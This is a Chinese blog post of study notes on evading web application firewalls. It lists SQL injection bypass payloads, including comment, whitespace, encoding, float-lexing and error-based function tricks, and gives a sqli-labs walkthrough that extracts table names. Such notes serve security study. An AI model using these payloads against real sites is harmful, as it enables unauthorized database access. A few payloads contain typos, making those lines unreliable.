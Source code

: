 ```yaml
---
layout:       post
title:        "WAF绕过原理分析笔记"
subtitle:     "null"
date:         2020-10-01 ‏‎14:54:16
author:       "NeptLiang"
header-img:   "img/home-bg.jpg"
header-mask:  0.3
catalog:      true
multilingual: true
tags:
    - Sec
    - WebSec
    - Bypass
---
```



# 0x00 前言

Null

---


# 0x01 白盒绕过

## 1. 分析代码

## 2. 绕过限制

1. **大小写变形**：`Or`，`OR`，`oR`，适用于正则没有`/i`
2. **等价替换**：`and`->`&&`, `or`->`||`
3. **双写**：`or`->`oorr`

---


# 0x02 黑盒绕过

参考[seceditor@MottoIN《WAF攻防研究之四个层次Bypass WAF》（mottoin.com/detail/359.html）](http://www.mottoin.com/detail/359.html)

## 一、架构层绕过WAF

1. 寻找**源站**（原始IP地址）->针对云WAF
2. 利用**同网段主机**进行渗透->绕过WAF防护区域
3. 利用**边界漏洞**（如利用SSRF）->绕过WAF防护区域

## 二、资源限制角度绕过WAF

POST**大BODY**（WAF可能会为了性能选择性忽略大数据包）

## 三、协议层面绕过WAF检测

### 1. 协议未覆盖

* 请求方式变换：GET->POST
* `Content-Type: application/x-www-form-urlencoded`
    -> `multipart/form-data`

### 2. 参数污染

检测：`?id=1&id=2`，WAF可能只检测第一个不检测第二个，中间件可能用第二个覆盖第一个

## 四、规则层面的绕过（绕过WAF规则）

### 1. SQL注释符绕过
1. 
    ```sql
    union/**/select
    ```
2. 
    ```sql
    union/*aaaa%0xbbs*/select
    ```
3. 
    ```sql
    union/*aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa*/select  /*（中间插入超长注释）*/
    ```
4. 内联注释：
    ```sql
    /*!xxx*/
    ```

### 2. 空白符绕过

1. MySQL**空白符**：`%09`, `%0A`, `%0B`, `%0D`, `%20`, `%0C`, `%A0`, `/*xxx*/`

2. 正则的**空白符**：`%09`, `%0A`, `%0B`, `%0D`, `%20`
* 例1：
    ```sql
    union%250Cselect
    ```
    （%25即“%”，“%250C”即"%0C")
* 例2：
    ```sql
    union%25A0select
    ```

3. **函数分割**符号  
    1. ```sql
        concat%2520(
        ```  
    2. ```sql
        concat/**/(
        ```  
    3. ```sql
        concat%250C(
        ```  
    4. ```sql
        concat%25a0(
        ```
4. **浮点数**词法解析（WAF可能对int/字符型+union select进行匹配，则用浮点型+union select）
    1. ```sql
        where id=8E0union select
        ```
    2. ```sql
        where id=8.0union select
        ```
    3. ```sql
        where id=\Nunion select
        ```
    ![id=8.0union](https://cdn.nlark.com/yuque/0/2020/png/2727264/1603136684724-54629ae2-5dc1-4d0a-8b19-bea7dbaa72d1.png)
5. 利用**error-based**进行SQL注入（Error-based SQL注入函数非常容易被忽略）
    1. ```sql
        extractvalue(1,concat(0x5c,md5(3)));
        ```
    2. ```sql
        updatexml(1,concat(0x5d,md5(3),1);
        ```
    3. ```sql
        GeometryCollection((select*from(select*from(select@@version)f)x))
        ```
    4. ```sql
        ploygon((select*from(select name_const(version(),1))x))
        ```
    5. ```sql
        linestring()
        ```
    6. ```sql
        multpoint()
        ```
    7. ```sql
        multilineString()
        ```
    8. ```sql
        multipolygon()
        ```
6. MySQL特殊语法
    ```sql
    select{x table_name}from{x information_schema.tables};
    ```

---


# Fuzz绕过WAF

## 例1：注释符绕过

先测试最基本的：
```sql
union/**/select
```
再测试中间引入特殊字：
```sql
union/*aaaa%0xbbs*/select
```
最后测试注释长度：
```sql
union/*aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa*/select
```
模式：
```sql
union/*something*/select
```

## 例2：sqli-labs题解

1. **检测**：参数加单引号报错
2. **Fuzz**: 把空格（`%20`）替换为`/**/`，然后用脚本或bp在注释中插随机特殊字符进行Fuzz，如数字`1`、字母`a`、`!`、`@`、`#`、`$`、`%`、`'`等，通过响应长度、payload是否符合语法、响应是否报错判断发现`/*%!%2f*/`可绕过该WAF
3. 把参数中的空格（`%20`）全部**替换**为`/*%!%2f*/`进行下一步测试
4. `order by`判断**字段数**为3个
5. `union select 1, 2, 3`，发现`2`和`3`出现在页面上，故这两个位置可回显结果
6. `union select 1, user(), 3`，发现又被拦截，可知可能是`user()`被匹配到，故改成`user/*%!%2f*/()`，查询成功
7. 
    ```sql
    union select 1, (select table_name from information_schema.tables where table_schema=database() limit 0, 1), 3-- 
    ```

---


*//End of Article*

**参考文献**：

* [seceditor@MottoIN《WAF攻防研究之四个层次Bypass WAF》（mottoin.com/detail/359.html）](http://www.mottoin.com/detail/359.html)

![公众号二维码](https://neptliang.github.io/img/Article/WeChatBlog.png)